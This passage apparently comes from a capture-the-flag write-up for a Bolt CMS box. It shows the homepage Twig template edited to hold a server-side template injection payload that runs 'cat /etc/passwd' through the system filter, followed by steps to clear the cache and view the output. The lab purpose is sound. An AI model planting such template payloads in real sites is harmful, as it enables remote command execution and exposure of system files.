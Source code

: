 ```cs
{% extends 'partials/_master.twig' %}

{% block main %}

  {{['cat\x20/etc/passwd']|filter('system')}}

  {% include 'partials/_index_hero.twig' with { content: 'blocks/hero-section' } %}

  {% include 'partials/_index_divider_top.twig' %}

  {% include 'partials/_index_vertical_block.twig' with { content: 'blocks/introduction', contenttype: 'pages' } %}

  {% include 'partials/_index_3_column_block_images.twig' with { contenttype: 'entries' } %}

  {% if 'people' in config.get('contenttypes').keys() %}
    {% include 'partials/_index_team.twig' with { content: 'blocks/people', contenttype: 'people' } %}
  {% endif %}

  {% if 'products' in config.get('contenttypes').keys() %}
    {% include 'partials/_index_pricing_block.twig' with { content: 'blocks/products', contenttype: 'products' } %}
  {% endif %}

  {% if 'pages' in config.get('contenttypes').keys() %}
    {% include 'partials/_index_3_column_block.twig' with { content: 'blocks/about', contenttype: 'pages' } %}
  {% endif %}

  {% include 'partials/_index_divider_bottom.twig' with { background: '#FFF' } %}

  {% include 'partials/_index_CTA.twig' with { content: 'blocks/call-to-action' } %}

  {% include 'partials/_index_divider_top.twig' with { background: '#f8fafc' } %}

  {% include 'partials/_index_contact_with_map.twig' %}

{% endblock main %}
```

Click "Save changes". Then, go to "Maintence", navigate to "[Clear the cache](http://talkative.htb/bolt/clearcache)", and click the "Clear the cache" button. This will make our changes present on the main page. Now, looking at `http://talkative.htb/` we see our command's output:
